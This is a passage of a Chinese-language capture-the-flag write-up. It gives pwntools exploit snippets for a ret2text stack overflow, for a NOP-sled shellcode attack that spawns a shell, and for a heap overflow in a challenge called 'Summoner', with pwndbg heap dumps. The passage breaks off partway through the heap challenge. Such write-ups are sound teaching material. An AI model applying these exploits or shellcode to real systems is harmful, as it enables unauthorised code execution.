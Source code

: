 随后就可以栈溢出了，程序中存在后门函数，直接 `ret2text`。

```python
sla('> ','1')
sla('name?\n','-1')
payload = flat('a'*0x48,0x4007d6)
sla('is?\n',payload)
```

### Snow Mountain

这题关闭了 NX 保护，说明需要布置 shellcode，难点在于找到 shellcode 位置。程序首先给出一个栈上的随机地址，并且栈上存在一个 `0x1000` 的字符数组。根据题目提示 "滑雪"、"雪橇" 等，容易想到利用 nop sled 滑到 shellcode 的位置来增加容错率。想到 nop sled 的话这题就做完了。

```python
ru('position: 0x')
cur = int(ru('\n'),16)
leak('cur',cur)
payload = asm(shellcraft.sh())
payload = payload.rjust(0x1000-1,'\x90')
sla('> ',payload)
sla('> ',hex(cur))
```

### Summoner

本次比赛唯二的堆题，但是极其简单。邪恶召唤师召唤了一只 5 级生物，但是你只能召唤四级生物，你的目的就是修改生物的等级为 5 级。

题目提供了几种命令：

- 展示召唤物信息
- 召唤一只生物，并给它起名字
- 设置生物的等级，但必须小于 5
- 攻击敌方召唤物
- 释放召唤物

我们通过逆向可以得知，召唤物的结构体长这样：

```c
struct creature {
    char *name;
    int level;
};
```

随后可以发现两处漏洞：

- 召唤时，输入的 `name` 使用 `strdup` 函数（隐式调用了 `malloc`），但并没有检查长度，因此可以溢出到下一个 8 字节处。
- 在释放召唤物时，只会调用 `free(c->name)`，然后将结构体指针置空，但并不会释放结构体指针本身。

因此我们尝试先召唤一个名为 `aaaaaaaa\x05` 的生物，此时堆结构如下：

```
pwndbg> heapls
           ADDR             SIZE            STATUS
sbrk_base  0x56476bb24000
chunk      0x56476bb24000   0x1010          (inuse)
chunk      0x56476bb25010   0x20            (inuse)
chunk      0x56476bb25030   0x20            (inuse)
chunk      0x56476bb25050   0x20fb0         (top)
sbrk_end   0x56476bb46000
pwndbg> x/8gx 0x56476bb25010
0x56476bb25010:    0x0000000000000000    0x0000000000000021
0x56476bb25020:    0x000056476bb25040    0x0000000000000000
0x56476bb25030:    0x0000000000000000    0x0000000000000021
0x56476bb25040:    0x6161616161616161    0x0000000000000005
```
